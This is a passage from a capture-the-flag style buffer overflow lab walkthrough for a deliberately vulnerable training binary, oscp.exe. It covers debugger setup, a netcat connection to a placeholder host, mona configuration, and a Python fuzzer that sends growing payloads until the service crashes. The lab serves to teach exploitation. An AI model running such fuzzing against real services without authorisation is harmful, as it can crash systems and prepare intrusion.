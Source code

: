 Thanks go to [@Mojodojo_101](https://twitter.com/Mojodojo_101) for helping create the custom oscp.exe binary for this room!

### Answer the questions below

* Deploy the VM and login using RDP.

## Task 2 - oscp.exe - OVERFLOW1

Right-click the Immunity Debugger icon on the Desktop and choose "Run as administrator".

When Immunity loads, click the open file icon, or choose File -> Open. Navigate to the vulnerable-apps folder on the admin user's desktop, and then the "oscp" folder. Select the "oscp" (oscp.exe) binary and click "Open".

The binary will open in a "paused" state, so click the red play icon or choose Debug -> Run. In a terminal window, the oscp.exe binary should be running, and tells us that it is listening on port 1337.

On your Kali box, connect to port 1337 on MACHINE_IP using netcat:

`nc MACHINE_IP 1337`

Type "HELP" and press Enter. Note that there are 10 different OVERFLOW commands numbered 1 - 10. Type "OVERFLOW1 test" and press enter. The response should be "OVERFLOW1 COMPLETE". Terminate the connection.

### Mona Configuration

The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

`!mona config -set workingfolder c:\mona\%p`

### Fuzzing

Create a file on your Kali box called fuzzer.py with the following contents:

```
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
